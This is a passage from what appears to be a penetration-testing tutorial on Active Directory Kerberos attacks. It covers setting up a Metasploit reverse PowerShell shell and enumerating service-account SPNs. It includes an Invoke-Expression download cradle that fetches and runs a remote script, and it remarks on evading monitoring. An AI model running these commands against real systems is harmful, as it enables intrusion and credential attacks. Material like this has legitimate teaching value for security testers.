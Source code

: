 This will give you the raw payload you need to run to get a remote powershell shell. Copy the output from `IEX` all the way to `ReadToEnd();)` and paste that in a new file (I used `/root/power-shell.ps1`).

Now, back at your metasploit session, background the meterpreter session and setup a new `exploit/multi/handler` for the `windows/powershell_reverse_tcp` payload. When you issue the `exploit` command, add `-j` so that the job will run in the background as we have one more thing to do before it will connect back.

{{< figure src="/images/kerberos_golden_ticket_powershell_handler.png" >}}

Fantastic. We are ready to accept the powershell connection! The last thing left to do is to execute the script we generated earlier with `msfvenom`! Use the `exec_powershell` post module and configure it to pickup the script where ever you placed it on disk:

{{< figure src="/images/kerberos_golden_ticket_exec_powershell.png" >}}

With the module configured to use the meterpreter session we originally got, as well as our exploit handler waiting in the background for the powershell connection, we issue the `run` command and hope it works!

{{< figure src="/images/kerberos_golden_ticket_powershell_shell.png" >}}

> Powershell session session 3 opened

Ok, that was a lot of work, but now we have the environment we need to get on with the SPN scanning! Simply interact with the session that spawned.

The next thing we want to do is get the `Find-PSServiceAccounts` PowerShell function into the environment. The script lives [here](https://github.com/PyroTek3/PowerShell-AD-Recon/blob/master/Find-PSServiceAccounts). Thankfully, we can kind of _include_ functions into the current session by using the powershell `Invoke-Expression` cmdlet for a new `Net.WebClient` object. To do that we run:

```
Invoke-Expression (New-Object Net.Webclient).downloadstring('https://raw.githubusercontent.com/PyroTek3/PowerShell-AD-Recon/master/Find-PSServiceAccounts')
```

Thats it. We can now just run the method!!

{{< figure src="/images/kerberos_golden_ticket_find_psserviceaccounts.png" >}}

We have just discovered the service account `svcSQLServ` and 2 hosts there it is in use!
The script also accepts a few arguments, such as `-DumpSPN`:

```
PS C:\> Find-PSServiceAccounts -DumpSPN
Discovering service account SPNs in the AD Domain foo.local
svcSQLServ/pc1.foo.local:1433
svcSQLServ/pc2.foo.local:1433
PS C:\Users\bobs\Downloads>
```

This is the part where I remind you about the *free port scan* I mentioned earlier. Notice how we have discovered services, ports and accounts running them using just a LDAP query. I highly doubt that will trigger many monitoring tools out there!

## kerberos service tickets
We now have 2 SPN's that we managed to query off the domain. `svcSQLServ/pc1.foo.local:1433` & `svcSQLServ/pc2.foo.local:1433`. In order for clients to be able to authenticate to the services running as this user via kerberos, they would typically go through the process of requesting a service ticket.
